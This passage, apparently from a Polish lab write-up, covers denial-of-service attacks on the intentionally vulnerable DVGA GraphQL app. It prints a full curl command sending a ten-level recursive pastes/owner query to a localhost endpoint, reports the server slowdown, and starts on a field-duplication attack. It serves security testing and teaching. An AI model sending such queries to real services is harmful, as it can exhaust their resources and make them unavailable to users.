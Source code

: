 Wersja tego samego ataku może zostać wykonana przy pomocy narzędzia CLI curl, umożliwiającego wysłanie zapytania w formacie JSON do endpointu /graphql. Taka forma nie tylko umożliwia pełną automatyzację, ale również pozwala na wykonanie testów w środowisku z ograniczonym dostępem do GUI lub w ramach kampanii fuzzingowej.

```
curl --location --request GET 'http://localhost:5013/graphql' \
--header 'Content-Type: application/json' \
--data '{"query":"query {\n  pastes {\n    owner {\n      pastes {\n        owner {\n          pastes {\n            owner {\n              pastes {\n                owner {\n                  pastes {\n                    owner {\n                      pastes {\n                        owner {\n                          pastes {\n                              owner {\n                                  pastes {\n                                      owner {\n                                          name\n                                      }\n                                  }\n                              }\n                          }\n                        }\n                      }\n                    }\n                  }\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n","variables":{}}'

```

Wysłanie zapytania z poziomu interfejsu GraphiQL skutkowało zauważalnym spowolnieniem odpowiedzi serwera.

#  Wykonanie 

Zarówno przy użyciu narzędzia curl, jak i interfejsu GraphiQL, zapytanie z 10 poziomami rekursji zostało poprawnie przetworzone przez serwer DVGA. Odpowiedź zawierała wielowarstwową strukturę JSON, w której pola owner i pastes były przetwarzane i zwracane wielokrotnie – w sumie ponad 100 podstruktur.

Widoczne opóźnienie w generowaniu odpowiedzi oraz rozmiar zwróconego dokumentu JSON świadczą o znacznym obciążeniu serwera. W zależności od środowiska i liczby jednoczesnych użytkowników, taki typ zapytania może prowadzić do:

- degradacji wydajności,

- nadmiernego zużycia zasobów pamięci RAM i CPU,

- całkowitej niedostępności usługi.

![image](https://github.com/user-attachments/assets/03589b92-8ab0-466b-8498-6a3a565a4b8c)


# Field duplication attack

# Opis ataku 

Powodowanie nadmiernego obciążenia serwera poprzez wielokrotne zapytanie o dokładnie to samo pole w ramach jednej operacji. Chociaż duplikaty są zbędne z perspektywy użytkownika, serwer GraphQL domyślnie przetwarza każde z nich osobno – co może prowadzić do ataku typu low-cost DoS.

GraphQL w swojej specyfikacji dopuszcza wielokrotne odwołania do tego samego pola w ramach jednego zapytania. Chociaż wiele implementacji normalizuje wynik odpowiedzi, przetwarzanie po stronie serwera może nadal odbywać się osobno dla każdego wystąpienia tego pola. Brak walidacji duplikatów w schemacie lub brak optymalizacji po stronie backendu może prowadzić do nadmiernego zużycia zasobów – w tym CPU oraz liczby zapytań do bazy danych.
